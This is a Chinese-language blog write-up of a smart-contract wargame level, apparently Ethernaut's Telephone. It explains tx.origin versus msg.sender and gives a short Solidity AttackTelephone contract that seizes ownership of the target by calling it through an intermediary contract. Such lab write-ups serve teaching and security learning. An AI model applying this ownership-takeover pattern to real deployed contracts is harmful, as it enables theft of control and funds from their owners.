

第五题，看起来很简单。目标是让

```
tx.origin != msg.sender
```

<!--more-->

# GPT的知识点整理

在以太坊中：

- **`tx.origin`** 是发起整个交易的原始账户地址（最顶层的调用者）。
- **`msg.sender`** 是当前合约调用的直接发送者（可能是外部账户或合约）。

要实现 `tx.origin != msg.sender`，需要通过 **一个中间合约** 调用目标合约：

#### 解决方案：

1. 创建一个 **中间合约**，该合约调用目标合约的方法。

2. 外部用户（你自己）调用中间合约，形成调用链：

    ```
    你 (tx.origin) -> 中间合约 (msg.sender) -> 目标合约
    ```

------

### **表格 1：`tx` 参数说明及设置方法**

`tx` 是全局对象，代表 **当前交易的属性**，但它是只读的，不能直接设置。以下是常见参数：

| 参数名        | 说明                                   | 是否可设置 | 示例设置方法                                    |
| ------------- | -------------------------------------- | ---------- | ----------------------------------------------- |
| `tx.origin`   | 原始交易发起者（外部账户地址）。       | 否         | 由发起交易的外部账户决定，无法通过代码设置。    |
| `tx.gasprice` | 当前交易的 Gas 价格（单位：wei）。     | 否         | 设置 Gas 价格时通过交易选项 `gasPrice` 指定。   |
| `tx.value`    | 当前交易发送的 ETH 数量（单位：wei）。 | 否         | 在发送交易时通过 `value` 参数指定。             |
| `tx.gaslimit` | 当前交易的 Gas 限制。                  | 否         | 在发送交易时通过 `gasLimit` 或 `gas` 参数指定。 |

------

### **表格 2：`msg` 参数说明及设置方法**

`msg` 是 Solidity 中的全局变量，表示当前执行上下文的信息。以下是 `msg` 参数的详细说明：

| 参数名       | 说明                                               | 是否可设置 | 示例设置方法                                                 |
| ------------ | -------------------------------------------------- | ---------- | ------------------------------------------------------------ |
| `msg.sender` | 当前调用的发送者地址（可以是外部账户或合约地址）。 | 否         | 根据谁调用当前合约自动设置（外部账户或上一级合约地址）。     |
| `msg.value`  | 交易中随附的以太币数量（单位：wei）。              | 是         | 在发送交易时通过 `value` 参数指定，例如：`{ value: 1 ether }`。 |
| `msg.data`   | 交易中随附的完整调用数据（包括函数选择器和参数）。 | 是         | 例如：`{data: '0xdd365b8b'}`，调用函数的时候会自动生成data，格式是函数选择器+参数。 |
| `msg.sig`    | 交易中函数选择器（前 4 字节的 `msg.data`）。       | 否         | 根据调用的函数自动生成，不能直接设置。                       |

------

### **如何设置交易参数**

以下是设置交易参数的方式（以 Web3.js 和 ethers.js 为例）：

#### **Web3.js**

```javascript
await contract.methods.someFunction(args).send({
  from: '0xYourAddress',         // 交易发起地址
  value: web3.utils.toWei('1'),  // 发送 1 ETH
  gas: 100000,                   // 设置 Gas 限制
  gasPrice: web3.utils.toWei('20', 'gwei') // 设置 Gas 价格
});
```

#### **ethers.js**

```javascript
const tx = await contract.someFunction(args, {
  value: ethers.utils.parseEther('1'), // 发送 1 ETH
  gasLimit: 100000,                   // 设置 Gas 限制
  gasPrice: ethers.utils.parseUnits('20', 'gwei') // 设置 Gas 价格
});
```

------

### **总结**

- `tx.origin != msg.sender` 的核心是通过中间合约构造调用链。
- `tx` 参数只读，设置交易参数需要通过外部发起交易时指定。
- `msg` 参数由交易上下文决定，可通过控制调用链、发送的 `value` 等间接影响。


# 解题

### 上传智能合约的方法

https://blog.csdn.net/wujian0428/article/details/129260266


### **调用其他智能合约的方法**

1. **通过接口调用**

    - 定义目标合约的接口。
    - 创建接口实例，调用目标函数。

    ```solidity
    interface IExample {
        function doSomething(uint256 value) external;
    }
    
    contract MyContract {
        function callOther(address target, uint256 value) public {
            IExample(target).doSomething(value);
        }
    }
    ```

2. **直接调用（低级调用）**

    - 使用 `.call` 进行底层调用。
    - 适用于未知 ABI 的动态调用。

    ```solidity
    (bool success, ) = target.call(abi.encodeWithSignature("doSomething(uint256)", value));
    require(success, "Call failed");
    ```


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract AttackTelephone {
    address public targetAddress;

    constructor(address _targetAddress) {
        targetAddress = _targetAddress;
    }

    function attack(address _newOwner) public {
        ITelephone(targetAddress).changeOwner(_newOwner);
    }
}
```

直接在Remix上部署、运行，就攻击成功了。



